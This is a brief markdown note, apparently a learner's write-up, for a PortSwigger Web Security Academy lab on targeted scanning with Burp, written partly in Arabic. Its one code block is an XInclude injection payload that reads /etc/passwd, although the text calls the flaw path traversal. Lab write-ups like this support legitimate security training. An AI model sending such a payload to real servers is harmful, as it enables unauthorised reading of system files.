



# Lab : Discovering vulnerabilities quickly with target scanning

https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing/lab-discovering-vulnerabilities-quickly-with-targeted-scanning

- الفكره من الLab ده انك بتتعلم تستخدم الactive scanning واكتشفت ان الموقع مصاب بpath traversal

```bash
1. <clw xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</clw>
```






